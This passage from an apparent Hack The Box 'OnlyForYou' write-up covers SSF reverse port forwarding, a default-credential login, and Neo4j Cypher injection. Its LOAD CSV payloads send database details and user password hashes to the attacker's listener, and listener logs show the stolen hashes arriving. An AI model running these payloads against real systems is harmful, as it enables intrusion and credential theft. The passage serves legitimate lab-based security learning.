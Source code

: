 ## Port Forward with SSF

I will use Secure Socket Funneling (SSF) to setup port forwards so that I can connect/scan these new ports. I moved SSF onto the box by using `python -m http.server` and `wget -r 10.10.14.15:8000`

```
./ssf -R 8001:127.0.0.1:8001 -R 3000:127.0.0.1:3000 10.10.14.15
```

Visiting port 8001, I found another website. I tried a few guesses, and was able to login with the credentials:

`admin:admin`

There, I found a complete form that sends a POST request to the "search" page. There was a lot of guesswork here, but the logic landed on the fact that there was a lot of Neo4j on the server, so lets try some neo4j injects.

![htb_onlyforyou_internal](https://guffre.github.io/assets/images/htb_onlyforyou_internal.jpg)

## Neo4j SQL Injection

It took a lot of trial and error, but eventually I found this site that details neo4j injection: [Case Study - Neo4j Injection // MeowMeowAttack&#39;s security.log](https://meowmeowattack.github.io/case-study/neo4j-injection/)

```
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name LOAD CSV FROM 'http://10.10.14.15/?name=' + name as l RETURN 0 as _0 //
```

Result:

```
kali@kali:~$ sudo nc -v -l -p 80
listening on [any] 80 ...
connect to [10.10.14.15] from only4you.htb [10.10.11.210] 46018
GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1
User-Agent: NeoLoadCSV_Java/17.0.6+10-Ubuntu-0ubuntu120.04.1
Host: 10.10.14.15
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

So we have the neo4j information and an inject that works!

The next attack described on the page is:

```
> ' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.15/' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Which gives us some password hashes:

```
kali@kali:~/Downloads/ssf64$ sudo python -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:12] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:36:13] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
```
